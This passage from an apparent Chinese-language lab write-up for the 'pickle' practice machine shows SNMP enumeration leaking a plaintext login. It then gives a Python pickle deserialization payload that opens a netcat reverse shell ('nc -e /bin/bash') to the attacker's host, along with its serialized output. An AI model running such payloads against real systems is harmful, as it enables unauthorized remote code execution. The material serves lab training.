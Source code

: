 可以发现 `snmp服务` 是开放的
snmp的相关信息可以[在这里](https://book.hacktricks.xyz/cn/network-services-pentesting/pentesting-snmp)查看

![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241130224842.png)
snmp的利用可以通过**暴力破解社区字符串**（community string），其中最常见的社区字符串是 `public`

### 4.1. snmpbulkwalk 获取数据
```bash
┌──(root㉿kali)-[/home/kali/hmv/pickle]
└─# snmpbulkwalk -c public -v2c 192.168.80.7 .
Created directory: /var/lib/snmp/cert_indexes
iso.3.6.1.2.1.1.1.0 = STRING: "Linux pickle 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (415838) 1:09:18.38
iso.3.6.1.2.1.1.4.0 = STRING: "lucas:SuperSecretPassword123!"
iso.3.6.1.2.1.1.5.0 = STRING: "pickle"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (5) 0:00:00.05
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
```

里面可以看到一个像是账号密码的东西
`lucas:SuperSecretPassword123!`

尝试一下 发现确实是账号密码
利用账号密码成功通过认证
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241130225142.png)

## 5. Pickle反序列化
在 `/` 路由下 发送反序列化的payload
然后在 `/checklist` 路由下post传参 `check` 值为我们payload的md5

```python
import pickle, os, base64
	class P(object):
		def __reduce__(self):
			return (os.system,("nc -e /bin/bash 192.168.80.5 1234 ",))
print(pickle.dumps(P()))
```
> [!warning]
> 
这里必须用Python2生成payload
```bash
┌──(root㉿kali)-[/home/kali/hmv/pickle]
└─# python2 payload.py
cposix
system
p0
(S'nc -e /bin/bash 192.168.80.5 1234 '
p1
tp2
Rp3
.
```
